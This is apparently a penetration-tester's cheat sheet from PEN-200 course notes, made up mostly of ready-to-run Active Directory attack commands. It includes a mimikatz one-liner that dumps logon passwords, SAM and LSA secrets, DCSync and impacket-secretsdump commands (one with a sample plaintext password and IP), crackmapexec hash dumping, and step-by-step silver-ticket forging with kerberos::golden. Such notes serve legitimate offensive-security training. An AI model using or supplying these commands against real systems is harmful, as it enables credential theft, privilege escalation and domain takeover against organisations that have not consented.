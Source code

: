 
### Secret Dumping 
```
#MIMIDUMP
.\mimikatz.exe "privilege::debug" "log mimikatz_passwords.txt" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "exit"

#DC SYNC
lsadump::dcsync /user:<domain>\<user>
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

#SAM / NTDS DUMP
impacket-secretsdump <user>@<ip>
crackmapexec smb <ip> -u <user> -p <password> --sam / --lsa / --ntds

#IF you are NT SYSTEM
Take a copy of SAM / SYSTEM.
NEED TO ADD REG QUERY TO DO THIS HERE.
```

### Silver Tickets
Is there an interesting service running such as an HTTP or SMB share that can't be accessed?
https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/silver-tickets
```
#Grab SID of your user.
whoami /user

#Open mimi
privilege::debug

#Grab NTLM hash of service account
sekurlsa::logonpasswords

#Generate ticket
kerberos::golden /sid:<id> /domain:<domin> /ptt /target:<ip/dnsname> /service:<protocol eg. http /smb> /rc4:<ntlm_of_service> /user:<our_adminuser>

#Check ticket
klist

#Access service
example: iwr -UseDefaultCredentials http://<target>
```

